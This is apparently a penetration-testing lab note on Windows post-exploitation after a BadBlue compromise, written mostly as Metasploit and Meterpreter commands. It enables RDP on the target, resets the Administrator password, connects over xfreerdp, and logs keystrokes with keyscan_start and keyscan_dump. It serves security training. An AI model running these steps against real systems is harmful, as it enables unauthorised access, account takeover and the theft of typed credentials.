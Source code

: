 ```bash
# for initial access we use the Badblue vuln.

msf5 > search enable_rdp
msf5 > use post.windows/manage/enable_rdp #Enable RDP on the target machine
set sessions 1
exploit
db_nmap -p3389 $ip # to confirm rdp is open.

# we can change the password of the Amdinistrator, but this is not recommended, as it can serve as indicator of compromise.
sessions 1 # to load the session.
shell # spawn cmd prompt.
C:\> net user Administrator hacker123 # to change password, you need admin privs.

# connect to a target PC with a rdp utility
xfreerdp /u:<username> /p:<password> /v:<targetIP> #Connect to the target system via RDP using legitimate credentials.
# get the flag in the Admin Desktop folder.
```



## <mark style="color:red;">Windows Keylogging</mark>

* Keylogging is the process of recording or capturing the keystrokes entered on a target system.
* This technique is not limited to post exploitation, there are plenty of programs and USB devices that can be used to capture and transmit the keystrokes entered on a system.
* Meterpreter on a Windows system provides us with the ability to capture the keystrokes entered on a target system and download them back to our local system.

### **Practical Demonstration**

```bash
# we use Badblue for exploitation.

# Best to migrate meterpreter to explorer.exe before setting up keylogging.
meterpreter > pgrep explorer.exe
meterpreter > migrate <explorer PID>

meterpreter > help # check the User interface cmd help menu.
meterpreter > keyscan_start # Start the keylogging
meterpreter > keyscan_dump #Dump the results of the keylogging
meterpreter > keyscan_stop #Stop the keylogging

# practical test
# goto the victim pc, launch notepad
# goto the kali pc and run the keyscan_start module.
meterpreter > keyscan_start # Start the keylogging

# back in the victim, type somethings and the attacker can see it.
# in the kali, use the ketyscan_dump to dump everything.
meterpreter > keyscan_dump #Dump the results of the keylogging.

# you may need to restart the keyscan to get more dumps.
```
